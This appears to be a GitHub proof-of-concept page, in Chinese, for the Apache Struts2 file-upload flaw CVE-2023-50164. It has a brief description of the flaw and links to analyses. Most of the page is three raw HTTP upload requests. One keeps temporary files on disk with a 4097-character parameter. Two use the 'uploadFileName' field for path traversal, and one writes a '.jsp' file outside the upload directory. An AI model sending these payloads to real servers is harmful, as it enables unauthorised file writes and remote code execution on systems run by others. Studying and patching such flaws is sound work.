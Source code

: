 ## Apache Struts2 CVE-2023-50164

漏洞描述里提到可通过伪造文件上传的参数导致目录穿越，看版本比对，有两个 Commit 引起我的关注，一个是 Always delete uploaded file，另一个是 Makes HttpParameters case-insensitive。前者的作用是确保上传的临时文件被正确上传，在修复之前，通过构造超长的文件上传参数可以让临时文件继续留存在磁盘中；

## 漏洞复现分析
- https://trganda.github.io/notes/security/vulnerabilities/apache-struts/Apache-Struts-Remote-Code-Execution-Vulnerability-(-S2-066-CVE-2023-50164)
- https://y4tacker.github.io/2023/12/09/year/2023/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%88%86%E6%9E%90-S2-066/
  
## poc
```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
 
test
 
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="caption";
 
 
{{randstr(4097,4097)}}
 
------WebKitFormBoundary5WJ61X4PRwyYKlip--
```


```
POST /s2_066_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Length: 593
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="upload"; filename="poc.txt"
Content-Type: text/plain
 
test
 
 
------WebKitFormBoundary5WJ61X4PRwyYKlip
Content-Disposition: form-data; name="uploadFileName";
 
../../poc.txt
 
------WebKitFormBoundary5WJ61X4PRwyYKlip--

```

```
POST /untitled4_war_exploded/upload.action HTTP/1.1
Host: localhost:8080
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=---------------------------299952630938737678921373326300
Upgrade-Insecure-Requests: 1
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Sec-Fetch-Mode: navigate
Origin: http://localhost:8080
Sec-Fetch-Dest: document
Cookie: JSESSIONID=4519C8974359B23EE133A5CEA707D7D0; USER_NAME_COOKIE=admin; SID_1=69cf26c6
Referer: http://localhost:8080/untitled4_war_exploded/
Content-Length: 63765

-----------------------------299952630938737678921373326300
Content-Disposition: form-data; name="Upload"; filename="12.txt"
Content-Type: image/png

111
-----------------------------299952630938737678921373326300
Content-Disposition: form-data; name="uploadFileName"; 
Content-Type: text/plain

../123.jsp
-----------------------------299952630938737678921373326300--
```
![image](https://github.com/wy876/POC/assets/139549762/afd588e7-f552-46bf-a2de-6c568d0fc1a2)

- https://blog.csdn.net/qq_18193739/article/details/134935865
  
